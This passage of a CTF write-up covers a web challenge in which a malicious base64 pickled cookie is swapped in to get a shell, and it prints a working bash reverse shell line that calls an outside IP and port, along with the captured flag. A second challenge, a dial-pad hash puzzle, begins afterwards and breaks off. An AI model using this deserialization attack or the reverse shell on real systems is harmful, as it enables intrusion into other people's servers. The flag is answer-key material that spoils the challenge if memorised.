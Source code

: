 ```python
# Print the base64 encoded malicious payload
print(encoded_pickled.decode())
```

- Steps of Exploitation,
    1. Setup The Environment,
        1. Start the `NGROK Server`
        2. Start the `Ncat Server`
        3. Prepare a `Reverse Shell Payload` to Put in Script
    2. Creating the Payload Using Above Script
    3. Go to the Webpage
    4. Add Any Item in Cart
    5. Go to Cart Section
    6. Open up the Application Section Inspect
    7. `Replace the Malicious Cookie` and `Just Refresh` and B00M!!!! Got a Shell 🫠

```python
"/bin/bash -c 'bash -i >& /dev/tcp/13.127.206.16/15354 0>&1'"
```

![image.png](images/Web/Pickle_Me_This_Cookie_Jar_Shenanigans/image2.png)

```python
CM{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}
```

## Hashing Numbers

![image.png](images/Web/Hashing_Numbers/image.png)

- When we visit this Website, and click in **,** we can press on Enter Now and i will redirect to another page,

 

![image.png](images/Web/Hashing_Numbers/image1.png)

- After Redirection, We see a puzzled text something like `742-AJM` and we have to unscramble this,
- And scrolling down we an image of dial pad,

![image.png](images/Web/Hashing_Numbers/image2.png)

![image.png](images/Web/Hashing_Numbers/image3.png)

- There also one button named “enter hash---→” which will redirect us to another page which ask for hash and correct hash will provide us flag.

![image.png](images/Web/Hashing_Numbers/5b7806d8-ee8a-4967-a38c-bee2db62e364.png)

![image.png](images/Web/Hashing_Numbers/image4.png)

- So Again We have one image of dial pad When Any Lame Hacker See any image, then they always try stupid things like steg…. so let’s try that,
